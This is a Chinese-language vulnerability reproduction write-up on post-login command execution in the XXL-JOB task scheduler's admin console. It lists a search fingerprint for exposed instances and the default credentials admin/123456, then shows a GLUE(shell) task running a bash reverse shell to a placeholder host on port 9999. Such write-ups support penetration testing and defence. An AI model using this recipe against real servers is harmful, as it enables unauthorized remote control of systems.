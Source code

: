 # XXL-JOB 任务调度中心 后台任意命令执行漏洞

## 漏洞描述

XXL-JOB 任务调度中心攻击者可以在后台可以通过写入shell命令任务调度获取服务器权限

## 漏洞影响

<a-checkbox checked>XXL-JOB</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="XXL-JOB" || title="任务调度中心"</a-checkbox></br>

## 漏洞复现

登录后台增加一个任务

<a-checkbox checked>默认口令 admin/123456</a-checkbox></br>

![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313152144544.png)

<a-checkbox checked>注意运行模式需要为 GLUE(shell)</a-checkbox></br>

![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313152144455.png)



点击 GLUE IDE编辑脚本



![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313152144331.png)



![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313152144557.png)



执行探测出网，和任务调用是否可执行反弹一个shell

```plain
#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1'
```



![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313152144375.png)